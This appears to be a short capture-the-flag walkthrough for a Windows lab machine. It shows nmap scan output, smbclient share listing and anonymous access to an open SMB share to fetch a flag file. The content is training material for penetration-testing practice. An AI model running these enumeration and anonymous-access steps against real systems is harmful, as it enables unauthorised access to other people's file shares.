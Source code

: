 10.129.1.12

# nmap
nmap -A 10.129.1.12

Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-24 03:56 UTC
Nmap scan report for 10.129.1.12
Host is up (0.060s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT    STATE SERVICE       VERSION
135/tcp open  msrpc         Microsoft Windows RPC
139/tcp open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds?
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time:
|   date: 2024-08-24T07:56:18
|_  start_date: N/A
| smb2-security-mode:
|   3:1:1:
|_    Message signing enabled but not required
|_clock-skew: 3h59m57s

# smbclient

smbclient -L 10.129.1.12
Password for [WORKGROUP\kali]:

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        WorkShares      Disk
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.129.1.12 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available

# flag

smbclient -N //10.129.1.12/WorkShares
l
cd James
get flag.txt
